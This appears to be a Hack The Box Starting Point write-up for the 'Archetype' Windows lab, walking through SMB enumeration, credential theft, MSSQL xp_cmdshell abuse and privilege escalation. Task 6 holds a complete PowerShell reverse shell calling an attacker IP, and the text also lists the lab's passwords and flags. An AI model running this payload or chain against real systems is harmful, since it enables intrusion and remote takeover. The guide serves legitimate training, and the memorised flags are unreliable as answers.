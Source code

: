 # Archetype

Archetype is a very easy Windows machine on Hack The Box Starting Point Tier 1 that focuses on credential theft and privilege escalation using winpeas and Impacket.

## Task 1
**Which TCP port is hosting a database server?**
> 1433

Using the `nmap` command, we see that there is a `ms-sq-s` database server running on port `1433`:

![TCP Port Scan](tcp_scan.png)

## Task 2
**What is the name of the non-Administrative share available over SMB?**
> backups

We use the `smbclient` command with the `-N` flag to connect to the SMB Server without authentication and the `-L` flag to list all available shares. Administrative shares have a `$` at the end of their names. Therefore the `backups` share is the only non-Administrative one on the SMB server:

![List All Shares on the SMB Server](list_shares.png)

## Task 3
**What is the password identified in the file on the SMB share?**
> M3g4c0rp123

We access the `backups` share anonymously and download the `prod.dtsConfig` file. We display the contents of `prod.dtsConfig` and see that the password is hardcoded into the config file:

![View Config File](password.png)

## Task 4
**What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**
> mssqlclient.py

We can use the credentials we found in the `prod.dtsConfig` file to authenticate to the target Microsoft SQL Server. We login as the `sql_svc` user in the `ARCHETYPE` domain using the password `M3g4c0rp123`:

![Impacket Authenticated Establishing Connection to SQL Server](mysql.png)

## Task 5
**What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**
> xp_cmdshell

In our SQL shell, we want to use the `xp_cmdshell` stored procedure and need to enable the feature using the `sp_confgiure` command:

![Windows Command Shell](cmd_shell.png)

## Task 6
**What script can be used in order to search possible paths to escalate privileges on Windows hosts?**
> winpeas

We download the `winpeas.exe` file and create a reverse shell in powershell `rev_shell.ps1` that connects to port `4242` of our computer:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.16',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Next we set up an HTTP server on port `12345` of our own machine in the same directory as our `winpeas.exe` and `rev_shell.ps1` files:

![HTTP Server](get_files.png)

We can run powershell commands using our Windows command shell with the `powersehll -c {cmd}` command. We try to download files to the Administrator's directory and aren't allowed. However, we do have permissions in the sql_svc user's directory. We use our Windows command shell to execute a powershell command download the `winpeas.exe` and `rev_shell.ps1` files:

![Our Downloaded Malicious Files](get_files2.png)

Next we setup a listener on our own computer using the `nc` command with the `-lvnp` flag on port `4242`. Then we go back to our Windows command shell and run the powershell command `powershell -noexit .\../../Users/sql_svc/rev_shell.ps1` which uses runs our reverse shell script:

![Running the Shell](run_shell.png)

Next we go back to our computer's netcat listener and see that we have a reverse shell. Then we are able to run winpeas.

![Shell](shell.png)

## Task 7
**What file contains the administrator's password?**
> ConsoleHost_history.txt

We run the `.\winpeas.exe systeminfo` command and see that we can view the PowerShell history file  `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`:

![Winpeas Output](stolen_credentials.png)

Next we use the `cat` command to view the PowerShell history file:

![Stolen Credentials](stolen_credentials2.png)

We see that there is an `Administrator` user with the password `MEGACORP_4dm1n!!`.

## User Flag
> 3e7b102e78218e935bf3f4951fec21a3

We use navigate to sql_svc's desktop and use the `cat` command to view the user flag `user.txt`:

![User Flag](flag1.png)

## Root Flag
> b91ccec3305e98240082d4474b848528

Lastly we use Impacket's psexec script with our stolen Administrator credentials to login to the target machine. We then view the contents of the Administrator flag `root.txt` with the `more` command:

![Administrator Flag](flag2.png)